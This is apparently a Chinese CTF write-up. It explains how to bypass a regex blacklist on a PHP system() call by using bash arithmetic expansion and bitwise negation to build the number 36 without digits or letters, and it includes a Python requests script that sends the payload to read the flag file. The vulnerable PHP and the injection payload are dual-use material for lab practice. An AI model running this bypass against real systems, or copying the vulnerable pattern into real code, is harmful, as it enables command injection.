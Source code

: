 # WP



```php
// 还能炫的动吗？
//flag in 36.php 
if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
  system("cat ".$c.".php");
} 
```

没有数字，没有字母，没有点，也不能用glob的命令执行
## 前置知识

在linux中:
- `$((表达式))`是数学运算
- `~`按位取反，~x和-1-x相等
  
  所以
  
  `$(())`是0
  
  `~$(())`是~0
  
  `$((~$(())))`是-1
  
  > 也就是`$((第二行))`
  
  `$((第二行))$((第二行))$((第二行))$((第二行))`就是-1-1-1-1
  
  `$((上一行))`就是-4
  
  `$((~上一行))`就是3
  
  同理，我们可以构造出代表36的字符串
  
  最终脚本：
  
  ```python
  weird_str = "$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))"
  
  r = requests.get(url, params = {
    "c": weird_str
  })
  
  print(r.text)
  ```
-